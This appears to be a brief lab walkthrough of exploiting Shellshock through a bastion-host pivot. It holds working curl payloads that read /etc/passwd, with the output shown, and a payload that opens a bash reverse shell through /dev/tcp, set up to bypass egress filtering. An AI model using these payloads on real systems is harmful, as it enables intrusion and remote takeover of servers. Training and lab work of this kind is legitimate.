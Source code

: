 
First, proxy traffic through the bastion host to exploit shellshock. I use proxychains for this, but other options are certainly available

```
$ ssh -D 9020 -i bastion_key root@10.10.99.5 -p 1022  
$ proxychains curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://172.24.0.2/cgi-bin/stats 

ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:9020-<><>-172.24.0.2:80-<><>-OK

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
```

Set up proxy to catch the reverse shell. We can use a dynamic port forward to open a port 6663 on the bastion host to receive the shell, and forward it back to us on port 6661:

Set up local netcat listener on 6662: 
```
ncat -lvp 6662 
Ncat: Version 7.01 ( https://nmap.org/ncat )
Ncat: Listening on :::6662
Ncat: Listening on 0.0.0.0:6662

```

Set up dynamic SSH port forward:
```
ssh -i bastion_key  -R 6663:172.24.0.253:6662 root@10.10.99.5 -p 1022 
```

Exploit Shellshock for reverse shell. Remote host should go bastion:6663 to make sure it forwards through the bastion, bypassing egress filtering.

```
proxychains curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/172.24.0.253/6663 0>&1;'" http://172.24.0.2/cgi-bin/stats
```
